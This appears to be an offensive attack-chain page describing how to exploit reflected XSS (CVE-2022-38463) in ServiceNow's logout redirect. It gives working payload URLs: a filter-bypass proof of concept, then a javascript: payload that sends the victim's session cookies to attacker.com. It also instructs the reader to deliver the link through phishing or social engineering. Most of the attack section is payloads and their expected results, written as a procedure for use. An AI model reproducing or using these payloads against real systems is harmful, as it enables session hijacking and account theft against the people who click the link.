

# Reflected XSS in ServiceNow Logout Functionality via sysparm_url (CVE-2022-38463)

Multi-stage attack chain demonstrating exploitation of CVE-2022-38463 in ServiceNow instances up to San Diego Patch 4b and Patch 6, allowing reflected XSS in the logout redirect to steal victim cookies and perform malicious actions.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 2 |
| Execution Time | ~1 minutes |
| Skill Level | Intermediate |
| Complexity | Medium |
| Impact Level | High |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- Web browser (e.g., Chrome, Firefox)

### Target Environment

- ServiceNow instance vulnerable to CVE-2022-38463 (versions through San Diego Patch 4b and Patch 6)
- Web platform with logout functionality at /logout_redirect.do
- Network access to the target ServiceNow host

### Initial Access Requirements

- Ability to trick victim into clicking or accessing the crafted URL (e.g., via phishing email or social engineering)
- No prior credentials needed; social engineering for URL delivery

## Detailed Attack Procedures

### Step 1: Craft and Deliver Malicious URL
procedure: [[procedures/Exploit-Reflected-XSS-in-ServiceNow-Logout]]

**Objective**: Create a URL that injects a JavaScript payload into the sysparm_url parameter to trigger reflected XSS upon access.

**Instructions**: Construct the URL using the target ServiceNow instance's logout endpoint. For example, encode a simple alert payload to test execution:

```url
https://target.servicenow.com/logout_redirect.do?sysparm_url=//j%5c%5cjavascript%3aalert(document.domain)
```

Deliver this URL to the victim via email, link, or direct browser access. The payload bypasses sanitization by using a double slash and encoded JavaScript URI scheme.

**Expected Output**: When the victim accesses the URL, the page loads and immediately executes the JavaScript, showing an alert with the document domain.

**Success Indicators**:
- Alert box appears confirming JavaScript execution
- Browser console logs the payload execution without errors

### Step 2: Execute Payload for Cookie Theft and Redirection
procedure: [[procedures/Exploit-Reflected-XSS-in-ServiceNow-Logout]]

**Objective**: Leverage the executed JavaScript to steal session cookies, redirect to an attacker-controlled domain, or perform other actions like session hijacking.

**Instructions**: Replace the alert payload with a more malicious one, such as exfiltrating cookies to an attacker server. Example payload in the sysparm_url:

```url
https://target.servicenow.com/logout_redirect.do?sysparm_url=//j%5c%5cjavascript%3a(document.location='https://attacker.com/steal?cookie='+document.cookie)
```

Access the URL in a browser to trigger. The JavaScript will capture the document.cookie and redirect to the attacker domain, sending the cookies via query parameter.

**Expected Output**: Victim is redirected to attacker.com with cookies appended to the URL; attacker receives the data for session hijacking.

**Success Indicators**:
- Cookies transmitted to attacker server (verify via server logs)
- Victim session hijacked or phished successfully
- No server-side errors; payload executes silently

## Attack Chain Summary

### Key Achievements

1. Successful reflected XSS execution in ServiceNow logout without authentication
2. Cookie theft enabling potential session hijacking on a DoD-hosted instance
3. Demonstration of impact including redirection to malicious domains and phishing

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[Drive-by Compromise]]
- [[Steal Web Session Cookie]]

### MITRE ATT&CK Tactics

- [[Initial Access]]
- [[Collection]]

---

*Last updated: 2023-10-01T00:00:00Z*
